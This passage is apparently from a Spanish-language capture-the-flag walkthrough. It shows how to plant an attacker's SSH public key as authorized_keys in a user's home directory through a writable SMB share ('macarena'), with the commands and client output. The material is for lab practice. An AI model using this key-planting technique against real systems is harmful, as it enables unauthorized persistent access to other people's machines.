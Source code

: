 ```bash


 cp /home/kali/.ssh/id_rsa .
 cp /home/kali/.ssh/id_rsa.pub .

```

copiamos y renombramos el nombre de la clave publica id_rsa.pub a authorized_keys

```bash
cp id_rsa.pub authorized_keys
chmod 600 id_rsa


```


Creamos el directorio `.ssh` en el directorio personal en el recurso compartido **macarena** (SMB) ingresamos al usuario y subimos el fichero **authorized_keys** y **id_rsa.pub**



```bash
smb: \> mkdir .ssh
smb: \> 
smb: \> 
smb: \> dir
  .                                   D        0  Wed Oct  1 10:08:32 2025
  ..                                  D        0  Wed Oct  1 10:08:32 2025
  .bashrc                             H     3771  Mon Aug 19 18:18:51 2024
  .cache                             DH        0  Mon Aug 19 18:40:39 2024
  user.txt                            N       33  Mon Aug 19 18:20:25 2024
  .bash_logout                        H      220  Mon Aug 19 18:18:51 2024
  .bash_history                       H        5  Mon Aug 19 19:26:02 2024
  .profile                            H      807  Mon Aug 19 18:18:51 2024
  .ssh  
```


Ahora los archivos de authorized_keys y de id_rsa.pub deben enviarse al servidor ftp.

```bash
smb: \.ssh\> put id_rsa.pub
putting file id_rsa.pub as \.ssh\id_rsa.pub (358.9 kB/s) (average 358.9 kB/s)
smb: \.ssh\> put authorized_keys
putting file authorized_keys as \.ssh\authorized_keys (358.9 kB/s) (average 358.9 kB/s)
smb: \.ssh\> 
smb: \.ssh\> 
smb: \.ssh\> dir
  .                                   D        0  Wed Oct  1 10:16:25 2025
  ..                                  D        0  Wed Oct  1 10:08:32 2025
  id_rsa.pub                          A      735  Wed Oct  1 10:16:11 2025
  authorized_keys                     A      735  Wed Oct  1 10:16:25 2025

                82083148 blocks of size 1024. 26999820 blocks available

```
